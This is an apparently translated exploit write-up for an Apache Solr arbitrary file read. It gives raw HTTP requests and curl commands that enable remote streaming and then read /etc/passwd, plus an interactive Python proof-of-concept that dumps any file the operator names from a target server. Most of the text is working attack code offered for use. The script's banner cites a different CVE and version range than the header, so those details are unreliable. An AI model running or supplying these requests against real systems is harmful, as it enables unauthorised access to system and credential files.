 <languages   />

Вплив вразливості
-----------------

    Apache Solr <= 8.8.1

Експлуатувати
-------------

Спочатку зайдіть на сторінку адміністратора, щоб отримати інформацію core:

    http://xxx.xxx.xxx.xxx/solr/admin/cores?indexInfo=false&wt=json

Відправте наступний пакет

    POST /solr/ckan/config HTTP/1.1
    Host: xxx.xxx.xxx:8983
    Content-Length: 99
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    Origin: http://118.31.46.134:8983
    Content-Type: application/json
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Referer: http://118.31.46.134:8983/solr/ckan/config
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
    Connection: close

    {"set-property":{"requestDispatcher.requestParsers.enableRemoteStreaming":true},"olrkzv64tv":"="}

Читання файлу
-------------

    POST /solr/ckan/debug/dump?param=ContentStreams HTTP/1.1
    Host: xxx.xxx.xxx.xxx:8983
    Content-Length: 29
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
    Origin: http://118.31.46.134:8983
    Content-Type: application/x-www-form-urlencoded
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Referer: http://118.31.46.134:8983/solr/ckan/config
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
    Connection: close

    stream.url=file:///etc/passwd

запит curl:

    curl -d '{"set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}' http://xxx.xxx.xxx.xxx:8983/solr/{corename}/config -H 'Content-type:application/json'
    curl "http://xxx.xxx.xxx.xxx:8983/solr/db/debug/dump?param=ContentStreams" -F "stream.url=file://etc/passwd"

POC
---

    import requests
    import sys
    import random
    import re
    import base64
    import time
    from lxml import etree
    import json
    from requests.packages.urllib3.exceptions import InsecureRequestWarning

    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech           \033[0m')
        print('+  \033[34mGithub : https://github.com/PeiQi0        \033[0m')
        print('+  \033[34m公众号  : PeiQi文库                        \033[0m')
        print('+  \033[34mVersion: Apache Solr < 8.2.0            \033[0m')
        print('+  \033[36m使用格式: python3 CVE-2019-0193.py       \033[0m')
        print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:8983  \033[0m')
        print('+  \033[36mFile   >>> 文件名称或目录                  \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url):
        core_url = target_url + "/solr/admin/cores?indexInfo=false&wt=json"
        try:
            response = requests.request("GET", url=core_url, timeout=10)
            core_name = list(json.loads(response.text)["status"])[0]
            print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core_name + "/config\033[0m")
            return core_name
        except:
            print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
            sys.exit(0)

    def POC_2(target_url, core_name):
        vuln_url = target_url + "/solr/" + core_name + "/config"
        headers = {
            "Content-type":"application/json"
        }
        data = '{"set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}'
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
            print("\033[36m[o] 正在准备文件读取...... \033[0m".format(target_url))
            if "This" in response.text and response.status_code == 200:
                print("\033[32m[o] 目标 {} 可能存在漏洞 \033[0m".format(target_url))
            else:
                print("\033[31m[x] 目标 {} 不存在漏洞\033[0m".format(target_url))
                sys.exit(0)

        except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m", e)

    def POC_3(target_url, core_name, File_name):
        vuln_url = target_url + "/solr/{}/debug/dump?param=ContentStreams".format(core_name)
        headers = {
            "Content-Type": "application/x-www-form-urlencoded"
        }
        data = 'stream.url=file://{}'.format(File_name)
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
            if "No such file or directory" in response.text:
                print("\033[31m[x] 读取{}失败 \033[0m".format(File_name))
            else:
                print("\033[36m[o] 响应为:\n{} \033[0m".format(json.loads(response.text)["streams"][0]["stream"]))


        except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m", e)

    if __name__ == '__main__':
        title()
        target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
        core_name = POC_1(target_url)
        POC_2(target_url, core_name)
        while True:
            File_name = str(input("\033[35mFile >>> \033[0m"))
            POC_3(target_url, core_name, File_name)